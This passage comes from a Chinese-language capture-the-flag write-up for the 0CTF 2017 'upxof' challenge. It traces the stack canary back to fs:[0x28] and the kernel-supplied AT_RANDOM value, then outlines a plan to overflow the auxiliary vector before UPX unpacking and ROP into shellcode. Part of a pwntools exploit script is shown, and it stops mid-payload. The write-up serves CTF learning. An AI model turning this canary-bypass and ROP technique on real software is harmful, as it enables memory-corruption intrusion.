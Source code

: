 ```python
 mapped : 0x7ff1839cd728 --> 0xb85039cc2a5b8200 
[stack] : 此处是main开始时push上去的所以不算
```
因为是从fs:[0x28]上取得canary...然后地址0x7ff1839cd728也是0x28结尾
于是我多做了几次实验发现都是0x28结尾所以
`fs-->0x7ff1839cd728`
也就是得到了canary的起源
```python
       来源于                            来源于           来源于
Canany------>0x7ff1839cd728(fs:[0x28])-------->AT_RANDOM------>Kernel
```
所以讲道理 我们只要改写` mapped : 0x7ff1839cd728 --> 0xb85039cc2a5b8200`
就可以破坏canary.或者我们在load前改写掉AT_RANDOM就可以控制 canary


于是关于这题邪恶的想法在我脑中产生.


## 思路

* 乘着没有load时 overflow 掉在栈上关于的结构体设置canary为已知的值
* 接着程序会解壳这时候就可以溢出做rop 跳到我们的shellcode.

## exp
```python

from pwn import *
rdi=0x0000000000800766
p=process("./upxof")
p.readuntil("password:")
"""
gdb.attach(p,'''
b *0x400a2e
c
b *0x400c93
c
b *0x800b4e
c
c
c
c
b *0x800d91
c
b *0x4005e9
c
si
si
si
si
si
si
si
b *0x7ffff7a99f40
c
c
b *0x7ffff7a9a08e
''')
"""
#context.log_level='debug'
s=p64(0)*14+p64(0x1)+p64(0x600100)+p64(0)
s+=p64(0x600100)*23+p64(0)
s+=p64(0x21)+p64(0x600100)+p64(0x10)+p64(0x78bfbff)+p64(6)+p64(0x1000)+p64(0x11)+p64(0x64)+p64(3)+p64(0x400040)
s+=p64(0x4)+p64(0x38)+p64(0x5)+p64(2)+p64(7)+p64(0)+p64(8)+p64(0)+p64(9)+p64(0x400988)
```

[1]: https://lwn.net/Articles/519085/
[3]: http://articles.manugarg.com/aboutelfauxiliaryvectors.html
[4]: https://code.woboq.org/userspace/glibc/elf/elf.h.html
[9]: https://github.com/n132/Watermalon/blob/master/0CTF_2017/upxof/upxof